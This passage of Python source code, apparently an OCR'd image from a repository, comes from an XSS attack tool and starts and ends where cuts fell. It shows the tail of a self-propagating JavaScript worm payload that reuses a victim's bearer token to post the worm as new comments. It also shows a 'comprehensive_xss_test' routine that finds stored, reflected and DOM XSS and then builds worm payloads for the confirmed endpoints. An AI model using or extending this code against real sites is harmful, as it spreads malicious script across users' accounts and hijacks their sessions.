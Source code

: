 ```python
                            headers: {
                                'Authorization': 'Bearer ' + token,
                                'Content-Type': 'application/json'
                            },
                            body: JSON.stringify({ content: wormComment })
                        }).catch(() => {});
                    });
                });
            }, 5000);
            
        })();
        </script>
        """
        
        return worm_payload.strip()
    
    def comprehensive_xss_test(self):
        """Perform comprehensive XSS testing"""
        print("=== Comprehensive XSS Vulnerability Assessment ===")
        
        results = {
            'discovery': [],
            'stored_xss': [],
            'reflected_xss': [],
            'dom_xss': [],
            'worm_payloads': []
        }
        
        # Step 1: Discover XSS endpoints
        vulnerable_endpoints = self.discover_xss_endpoints()
        results['discovery'] = vulnerable_endpoints
        
        # Step 2: Test each vulnerable endpoint
        for endpoint_info in vulnerable_endpoints:
            # Test stored XSS
            stored_results = self.test_stored_xss(endpoint_info)
            results['stored_xss'].extend(stored_results)
            
            # Test reflected XSS
            reflected_results = self.test_reflected_xss(endpoint_info)
            results['reflected_xss'].extend(reflected_results)
        
        # Step 3: Test DOM XSS
        dom_results = self.test_dom_xss()
        results['dom_xss'] = dom_results
        
        # Step 4: Create worm payloads for confirmed vulnerabilities
        if results['stored_xss']:
            for endpoint_info in vulnerable_endpoints:
                if any(r['stored'] for r in results['stored_xss']):
                    worm = self.create_xss_worm(endpoint_info['endpoint'])
                    results['worm_payloads'].append({
                        'endpoint': endpoint_info['endpoint'],
                        'payload': worm
                    })
        
        return results
    
    def cleanup(self):
        """Cleanup resources"""
        if self.driver:
            self.driver.quit()

```